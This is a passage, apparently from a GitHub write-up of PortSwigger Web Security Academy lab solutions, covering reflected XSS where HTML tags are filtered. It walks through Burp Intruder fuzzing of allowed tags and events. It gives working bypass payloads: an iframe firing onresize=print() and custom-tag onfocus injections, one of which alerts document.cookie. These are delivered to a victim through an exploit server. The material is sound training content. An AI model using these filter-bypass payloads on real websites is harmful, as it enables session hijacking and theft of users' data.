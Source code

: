 8. When the attack is finished, review the results. Note that all payloads caused an HTTP 400 response, except for the ``body`` payload, which caused a 200 response.
9. Go back to the Positions tab in Burp Intruder and replace your search term with: ``<body%20=1>``
10. Place the cursor before the = character and click "Add §" twice, to create a payload position. The value of the search term should now look like: ``<body%20§§=1>``
11. Visit the XSS cheat sheet and click "copy events to clipboard".
12. In Burp Intruder, in the Payloads tab, click "Clear" to remove the previous payloads. Then click "Paste" to paste the list of attributes into the payloads list. Click "Start attack".
13. When the attack is finished, review the results. Note that all payloads caused an HTTP 400 response, except for the onresize payload, which caused a 200 response.
14. Go to the exploit server and paste the following code, replacing your-lab-id with your lab ID:
```
<iframe src="https://your-lab-id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```
15. Click "Store" and "Deliver exploit to victim".

## Reflected XSS into HTML context with all tags blocked except custom ones
Reference: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked


### Quick Solution
This lab blocks **every** HTML tag except custom ones. Looking at the **cheatsheet** there are some payloads that can be used, here is the one that uses only custom tags and is compatible with every browser except Firefox:
```
<xss id=x tabindex=1 onfocus=alert(1)></xss>
```
To automatically trigger the payload on page load add ``#x``. Even though this payload is not compatible with *Firefox* the lab will be marked as solved (the target browser is probably *Chrome*).


### Solution
1. Go to the exploit server and paste the following code, replacing ``your-lab-id`` with your lab ID:
```javascript
<script>
location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```
2. Click "Store" and "Deliver exploit to victim".
This injection creates a custom tag with the ID ``x``, which contains an ``onfocus`` event handler that triggers the ``alert`` function. The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the ``alert`` payload to be called.

## Reflected XSS with some SVG markup allowed
Reference: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed
